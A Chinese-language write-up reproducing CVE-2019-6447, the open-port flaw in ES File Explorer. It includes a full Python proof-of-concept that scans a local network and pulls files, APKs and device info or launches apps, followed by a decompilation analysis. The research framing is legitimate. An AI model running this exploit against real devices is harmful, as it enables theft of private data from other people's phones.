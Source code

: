# CVE-2019-6447 ES文件管理器漏洞复现

> ES文件管理器是一个很常用的文件管理器，主要的利用就是利用了该软件运行之后开启了TCP 59777端口，未关闭导致的可以通过HTTP协议POST请求接受JSON数据，然后可以进行解析执行返回的结构的一个漏洞。

## 环境

- windows10
- IDEA
- JDK 1.8.0_201
- Genymotion安卓模拟器管理
- Google Galaxy Nexus 4.1-API 16的安卓模拟器（用来验证与复现漏洞）
- APKTool（用来分析apk源码）
- ES文件管理器 4.1.9.4版本（这个之前的应该都可以，但是我没有都进行复现）

![1558684567145](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558684567145.png)

- 配置中`ip`地址来源，将模拟器配置安装好之后，命令行输入`adb  devices` 就可以看到`ip`地址了。

## 攻击效果

- 可以获取到同一网段内安卓终端的所有APP信息

![1558685097087](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558685097087.png)

![1558684867659](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558684867659.png)

- 可以在安卓终端打开任意APP

![1558684938285](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558684938285.png)

![1558684979911](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558684979911.png)

- 相当于获取到了一定的权限可以进行很多恶意的操作，是大神`fs0c131y`写的[POC代码](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

```
import json
import optparse
import requests
import sys
from socket import *

verbose = True

def sanitize_json(json):
    json = json.replace("\'", "\"")
    json = json.split('[')[1].split(']')[0]
    json = json[0:len(json)-6] + "}"
    return json

def get_file(addr, filepath):

    if verbose:
        print('[*] Getting file: ' + filepath + '\n\tfrom: ' + addr)
    session = requests.Session()
    headers = {"Content-Type": "application/json"}
    address = 'http://' + addr + ':59777' + filepath
    filename = filepath.rsplit('/', 1)[1]
    resp = session.get(address, headers=headers, verify=False)

    if verbose:
        print('[*] Server responded with: ' + str(resp.status_code))
    if resp and resp.status_code == 200:
        if verbose:
            print('[*] Writing to file: ' + filename)
        with open(filename, 'wb') as f:
            f.write(resp.content)

def execute_cmd(addr, cmd, package):

    if verbose:
        print('[*] Executing command: ' + cmd + ' on ' + addr)
    session = requests.Session()
    headers = {"Content-Type": "application/json"}
    address = 'http://' + addr + ':59777'

    if package != '':
        data = '{ "command":' + cmd + ', "appPackageName":' + package + ' }'
    else:
        data = '{ "command":' + cmd + ' }'
    resp = session.post(address, headers=headers, data=data, verify=False)

    if verbose:
        print('[*] Server responded with: ' + str(resp.status_code))
    if "NameNotFoundException" in resp.text:
        print('[!] Package \'' + package + '\' not found!')
        return
    if cmd not in ('getDeviceInfo', 'appLaunch', 'listAppsSdcard', 'listVideos', 'listFiles'):
        text = sanitize_json(resp.text)
    else:
        text = resp.text

    if resp and resp.status_code == 200:
        if cmd == 'getAppThumbnail': 
            if verbose:
                print('[*] Getting app thumbnail: ' + package)
            with open(package + ".jpg", 'wb') as f:
                f.write(resp.content)
        elif cmd == 'appPull':
            if verbose:
                print('[*] Pulling app: ' + package)
            with open(package + ".apk", 'wb') as f:
                f.write(resp.content)
        else:
            print(text)

def is_up(addr):
    s = socket(AF_INET, SOCK_STREAM)
    s.settimeout(1)
    if not s.connect_ex((addr, 59777)):
        s.close()
        return 1
    else:
        s.close()

def show_available_cmds():
    print('')
    print('######################')
    print('# Available Commands #')
    print('######################')
    print('')
    print('listFiles: List all the files')
    print('listPics: List all the pictures')
    print('listVideos: List all the videos')
    print('listAudios: List all the audio files')
    print('listApps: List all the apps installed')
    print('listAppsSystem: List all the system apps')
    print('listAppsPhone: List all the phone apps')
    print('listAppsSdcard: List all the apk files in the sdcard')
    print('listAppsAll: List all the apps installed (system apps included)')
    print('getDeviceInfo: Get device info. Package name parameter is needed')
    print('appPull: Pull an app from the device')
    print('appLaunch: Launch an app. Package name parameter is needed')
    print('getAppThumbnail: Get the icon of an app. Package name parameter is needed')
    print('')


def set_up_menu():
    parser = optparse.OptionParser()
    parser.add_option('-g', '--get-file',action="store", dest="filepath",help="Get file path", default="")
    parser.add_option('-c', '--cmd',action="store", dest="cmd",help="Command to execute", default="")
    parser.add_option('-p', '--pkg',action="store", dest="package",help="Package name", default="")
    parser.add_option('--ip', '--host',action="store", dest="host", help="Target host IP", default="")
    parser.add_option('-n', '--network',action="store", dest="network", help="Network to scan", default="192.168.0.")
    parser.add_option('-v', '--verbose', action="store_true", dest="verb", help="Loud stdout")
    return parser.parse_args()

def main():
    options, _ = set_up_menu()
    verbose = options.verb

    if len(sys.argv) > 1 and sys.argv[1] == 'list':
        show_available_cmds()
    elif options.filepath != '' or options.cmd != '':
        def scan_host(addr):
            if verbose:
                print('[*] Checking address: ' + addr)
            if is_up(addr):
                if verbose:
                    print('[+] Address is up: ' + addr)
                if options.filepath != '':
                    get_file(addr, options.filepath)
                elif options.cmd != '':
                    execute_cmd(addr, options.cmd, options.package)

        if options.host != '':
            scan_host(options.host)
        else:
            for ip in range(0, 255):
                scan_host(options.network + str(ip))
    else:
        print('Usage:')
        print('- python3 poc.py list')
        print('- python3 poc.py --get-file [filepath]')
        print('- python3 poc.py --cmd [cmd]')
        print('- python3 poc.py --cmd [cmd] --host [target_host]')
        print('- python3 poc.py --cmd [cmd] --network [network]')
        print('- python3 poc.py --cmd [cmd] --pkg [package_name]')
        print('- python3 poc.py --verbose --cmd [cmd] --pkg [package_name]')

if __name__ == '__main__':

    main()
```

## 分析过程

- 先将`apk`文件解压，可以看到多个`dex`文件。

  ![1558685931706](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558685931706.png)

- 使用`jadx-gui`逐个打开`dex`文件，进行反编译。

  ![1558686949557](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558686949557.png)

- 使用字符串搜索关键字`command`，看到关键的位置。`\com\estrongs\android\f\a.class` 并且里边可以看到允许很多的`command`命令，例如`listAppsAll`、`getDeviceInfo`等等。

  ![1558687062762](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558687062762.png)

  ![1558687304614](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558687304614.png)

- 以`appLaunch`命令为例分析，如果`cmd`接收到`appLaunch`命令，就会返回`a(jSONObject)`,查看一下`a`函数的源码。

  ![1558687542252](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1558687542252.png)

- 就是将从`json`串中找到`app`的包名，然后直接通过`startActivity`启动程序。

## 总结

由于对于传入的数据没有进行严格的校验产生的问题。修补过后的也是将传入的数据进行了校验，使得攻击者无法执行进一步的恶意操作。





## 参考链接

- [ES文件浏览器 CVE-2019-6447 高危漏洞复现](https://www.52pojie.cn/thread-856993-1-1.html)